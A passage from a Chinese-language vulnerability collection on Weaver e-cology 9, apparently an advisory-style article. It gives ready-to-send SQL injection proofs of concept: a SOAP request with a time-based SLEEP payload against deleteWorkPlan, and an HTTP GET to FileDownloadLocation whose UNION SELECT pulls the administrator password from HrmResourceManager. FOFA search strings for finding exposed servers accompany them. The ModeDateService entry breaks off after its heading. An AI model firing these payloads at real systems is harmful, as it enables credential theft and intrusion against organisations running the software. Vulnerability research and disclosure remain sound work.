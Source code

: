   
<soapenv:Envelope xmlns:soapenv="  
http://schemas.xmlsoap.org/soap/envelope/"  
 xmlns:web="webservices.workplan.weaver.com.cn">  
  
    <soapenv:Header/>  
  
      <soapenv:Body>  
  
      <web:deleteWorkPlan>  
  
           
  
         <web:in0>(SELECT 8544 FROM (SELECT(SLEEP(5-(IF(27=27,0,5)))))NZeo)</web:in0>  
  
           
  
         <web:in1>22</web:in1>   
  
      </web:deleteWorkPlan>  
  
      </soapenv:Body>  
  
</soapenv:Envelope>  
  
### 2.1.4泛微e-cology9系统接口FileDownloadLocation接口存在SQL注入漏洞  
  
泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。泛微e-cology 9 x.FileDownloadLocation接口存在SQL注入漏洞  
  
1.fofa  
  
body="doCheckPopupBlocked"  
  
2.poc  
```
GET /weaver/weaver.email.FileDownloadLocation/login/LoginSSOxjsp/x.FileDownloadLocation?ddcode=7ea7ef3c41d67297&downfiletype=eml&download=1&mailId=1123+union+select+*+from+(select+1+as+resourceid,'../ecology/WEB-INF/prop/mobilemode.properties'+as+x2,'3'+as+x3,(select++*+from+(select+*+from+(select+password+from+HrmResourceManager+where+id=1)x)x)+as+x4,5+as+x5,6+as+x6)x+where+1=1&mailid=action.WorkflowFnaEffectNew&parentid=0 HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate, br, zstd
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.0.0 Safari/537.36
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEahET4D9upp71ocVSgPzGCtn6EhvAeb5G3lTqBZIjPhMIDZI9jNkq3ZM22NYYfZhR1KxxibUHicBAA/640?wx_fmt=png&from=appmsg "")  
  
  
### 2.1.5泛微ecology9系统接口ModeDateService存在SQL漏洞  
  
泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。泛微e-cology9系统ModeDateService存在SQL注入漏洞。  
  
1.fofa  
  
app="泛微-协同商务系统"  
  
2.hunter  
  